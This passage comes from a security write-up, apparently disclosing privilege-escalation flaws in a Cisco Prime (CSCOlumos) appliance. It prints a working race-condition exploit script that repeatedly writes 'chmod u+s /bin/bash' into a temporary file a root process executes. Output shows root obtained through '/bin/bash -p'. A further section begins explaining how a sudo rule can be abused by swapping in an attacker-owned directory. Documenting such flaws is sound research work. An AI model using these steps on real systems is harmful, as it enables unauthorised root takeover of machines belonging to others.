 In another session, we create an exploit script to overwrite `/tmp/rmanExec.sh` repeatedly until we win the race:

```bash
#!/bin/bash

while true; do
    # Write the command to set SUID on /bin/bash to /tmp/rmanExec.sh
    echo "chmod u+s /bin/bash" > /tmp/rmanExec.sh

    # Check if /bin/bash has the SUID bit set
    if [ -u /bin/bash ]; then
        echo "[!] /bin/bash has SUID set. Exiting loop."
        break
    fi

done
```

Executing this script with `time` shows how long it takes to win the race:

```bash
time ./exploit.sh
[!] /bin/bash has SUID set. Exiting loop.

real	0m3.422s
user	0m0.368s
sys	0m0.588s

/bin/bash -p
id
uid=998(prime) gid=995(prime) euid=0(root) groups=995(prime),0(root)
```

This approach successfully sets SUID on /bin/bash, granting root access.

---

## PrivEsc #5

Although we have sudo permissions to run anything in `/opt/CSCOlumos/rcmds/`, we don’t have write access to the scripts within this directory. However, since we own the parent directory, we can exploit this by renaming the `rcmds` folder, creating our own with the same name, and adding a custom script to execute with sudo.

First, let’s check permissions on `/opt/CSCOlumos/`:

```bash
ls -la /opt/CSCOlumos/

total 172
drwxrwxr-x. 60 prime root     4096 Nov  7 01:16 .
drwxr-xr-x.  4 root  root       39 Oct 15 03:42 ..
```
